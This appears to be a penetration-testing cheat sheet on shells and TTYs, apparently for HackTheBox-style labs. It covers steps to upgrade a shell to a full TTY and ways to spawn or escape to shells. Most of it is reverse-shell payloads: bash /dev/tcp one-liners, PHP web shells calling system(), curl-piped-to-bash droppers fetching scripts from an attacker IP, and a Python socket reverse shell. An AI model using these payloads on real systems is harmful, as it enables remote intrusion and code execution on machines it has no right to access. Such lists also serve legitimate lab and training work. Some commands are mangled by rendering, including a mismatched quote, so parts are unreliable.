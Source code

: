 ```yaml
---
icon: book-skull
---
```


# Shells/TTYs

{% hint style="info" %}
## <mark style="color:purple;">`TTYs`</mark>

### <mark style="color:purple;">Ncat</mark>

* <mark style="color:purple;">You can use the</mark> <mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">utility to</mark> <mark style="color:purple;">enables line editing and history.</mark>
* <mark style="color:purple;">In order to have a full</mark> <mark style="color:orange;">**`TTY`**</mark> <mark style="color:purple;">**follow this steps:**</mark>

#### <mark style="color:orange;">`BASH`</mark><mark style="color:purple;">:</mark>

1. <mark style="color:purple;">`python3 -c 'import pty; pty.spawn("/bin/bash")'`</mark>
2. &#x20;<mark style="color:purple;">`CTRL+Z`</mark>
3. <mark style="color:purple;">`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`</mark>

<mark style="color:orange;">**`ZSH`**</mark><mark style="color:purple;">:</mark>

* <mark style="color:purple;">Same first two steps and then:</mark>

{% code overflow="wrap" %}
```bash
stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}
{% endhint %}











TTYs

```bash
#Spawn a terminal 1
python3 -c 'import pty;pty.spawn("/bin/bash")’
```

Spawning Shells

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
python3 -c 'import pty; pty.spawn("/bin/sh")'

script -qc /bin/bash /dev/null

echo os.system('/bin/bash') 
/bin/sh -i 
perl -e 'exec "/bin/sh";' 
perl: exec "/bin/sh"; 
ruby: exec "/bin/sh" 
lua: os.execute('/bin/sh') 
exec "/bin/sh"; 
/bin/bash -i
exec "/bin/sh"                # (From within IRB) 
:!bash                        # (From within vi)
:set shell=/bin/bash:shell    # (From within vi) 
!sh                           # (From within nmap)
```





***



HTTP

```bash
With Url:
<http://10.10.14.14/$>(bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1')
```

PHP

```bash
#For index.php files
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");
?>

#To copy inside a file
echo '<?php system("curl <http://10.10.14.16:443/rev.sh> | bash"); ?>' > hola.php

```

BASH + PHP

```bash
#Create the rev shell first

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.16/443 0>&1

#Copy it in to file with at http server
echo '<?php system("curl <http://10.10.14.16:80/hey> | bash"); ?>'
```

Standard [shell.sh](http://shell.sh)

```c
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```

Python

```bash
#IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#Inside a file
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"10.10.14.18\\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);" > exploit.py
```
